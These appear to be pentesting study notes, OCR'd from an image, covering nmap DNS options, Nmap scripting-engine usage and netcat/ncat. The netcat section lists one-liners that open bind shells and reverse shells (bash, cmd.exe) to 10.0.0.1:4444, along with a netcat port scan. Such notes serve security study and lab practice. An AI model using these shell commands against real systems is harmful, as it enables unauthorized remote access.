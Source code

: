 
-n  // never do DNS resolution
-R // always do dns resolution
--dns-server // use this dns server




NMAP scripting engine
1)nmap --script-help ftp-anon     ** get help on how to use a certain script


2)scripts categories:
default: used in the default script scan -sC or --script
safe: script is safe not to use and not designed to crash services.
auth: script uses credentials to login into the target system




3) Arguments can be passed to the script with the --scripts-args or scripts-args-file options












get a list of a available scripts
root@kali:~/humble# nmap --script-help=mongo*






** update the scripts


nmap --script-updatedb






84) netcat
nc.exe
nc -nlvp 10000                                       **listen on a specific port
nc -nlvp 10000 -e /bin/bash                          ** listen and provide a linux bind shell
nc -nlvp 10000 -e cmd.exe                            ** listen and provide a windows bind shell
nc -nv 10.0.0.1 4444                                 ** connect to the server on that port
nc -nv 10.0.0.1 4444 -e cmd.exe             ** connect to the server and provide windows reverse shell
nc -nv 10.0.0.1 4444 -e /bin/bash            ** connect to the server and provide linux reverse shell


susie:~# nc -v -z -n -w 1 10.11.1.226 1-1023 ** very fast port scanner


85)ncat
ncat is a new replacement for netcat where new features are available. while testing i saw the following new features:
- the intro of ssl  option is --ssl
- the ability to restrict source ip of clients.
options is --allow 10.0.0.1
